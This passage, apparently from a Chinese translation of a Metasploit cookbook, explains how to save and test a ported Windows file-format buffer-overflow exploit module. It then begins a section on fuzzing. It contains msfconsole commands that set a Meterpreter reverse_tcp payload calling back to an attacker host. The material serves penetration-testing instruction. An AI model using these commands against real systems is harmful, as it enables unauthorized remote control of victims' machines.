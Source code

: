 这是一个简短的演示，演示了如何将现有的漏洞转化为 Metasploit 模块。此过程的难度因漏洞而异。了解更多信息的最佳方法是查看 Metasploit 库中可用的漏洞利用模块。在下一个配方中，我们将学习如何将此漏洞利用模块移植到框架中，以便我们可以使用它进行渗透测试。

# 移植并测试新的漏洞模块

在前面的配方中，我们了解了如何使用可用的概念证明为 Metasploit 开发一个完整的漏洞利用模块。在这个配方中，我们将把模块保存在一个适当的位置，然后测试它，看看是否一切正常。

## 准备好了吗

这是非常重要的照顾文件夹，我们要存储我们的漏洞模块。这可以帮助您跟踪不同的模块，也有助于框架理解基本的模块用法。现在您已经有了完整的模块脚本，让我们找到一个适当的位置来保存它。

## 怎么做。。。

由于这是一个攻击模块，目标是影响特定文件格式的 Windows 操作系统，因此我们必须相应地选择模块位置。查看 `modules/exploits/windows`目录，您可以找到 `fileformat`漏洞模块的特定文件夹。这是我们可以保存模块的位置。让我们将其另存为 `galan_fileformat_bof.rb`。

## 它是如何工作的。。。

下一个也是最后一个任务是检查我们的模块是否正常工作。到目前为止，我们已经在模块方面做了很多工作，所以这一步很容易。我们将遵循迄今为止使用的相同流程：

```
msf > use exploit/windows/fileformat/galan_fileformat_bof
msf exploit(galan_fileformat_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(galan_fileformat_bof) > set LHOST 192.168.56.101
msf exploit(galan_fileformat_bof) > exploit 
```

一旦传递了利用漏洞命令，模块将执行并创建一个文件，该文件可用于在目标计算机上造成溢出。

这就完成了我们的模块创建和执行过程。您可能已经看到，这个过程非常简单。真正的工作在于正确地将利用脚本转换为框架模块。您可以根据需要调试或修改任何现有模块。您还可以向 Metasploit 社区提交任何新创建的模块，以帮助其他人从中受益。

# 使用 Metasploit 进行起毛

模糊测试或模糊化是一种软件测试技术，它包括使用随机数据注入查找实现缺陷。模糊脚本生成格式错误的数据并将其传递给特定的目标实体，以验证其溢出容量。Metasploit 提供了几个模糊模块，这些模块有助于开发漏洞。让我们进一步探讨模糊化的基础知识，以及如何将 Metasploit 模块用作潜在的模糊器。

## 准备好了吗

在我们跳转到 Metasploit fuzzer 模块之前，让我们简要概述一下 fuzzing 及其类型。

模糊处理被视为一种黑盒测试技术，我们在其中测试软件的最大溢出容量。Fuzzing 被积极地用于发现应用程序中的 bug。

Fuzzer 可用于测试软件、协议和文件格式。Fuzzers 使数据生成和注入过程自动化。我们可以控制要注入的数据或数据包的大小。

fuzzer 会尝试对以下对象进行组合攻击：

*   数字（有符号/无符号整数、浮点等）
*   字符（URL 和命令行输入）
*   元数据：用户输入文本（ `id3`标签）
*   纯二进制序列

根据我们针对的应用程序或协议的类型，我们可以设置 fuzzer 来生成数据/数据包以测试其溢出。Metasploit 包含几个 fuzzer 模块，可用于针对黑盒测试测试应用程序和协议。这些模块可位于 `modules/auxiliary/fuzzers`处。让我们分析一下这些模块的实现。
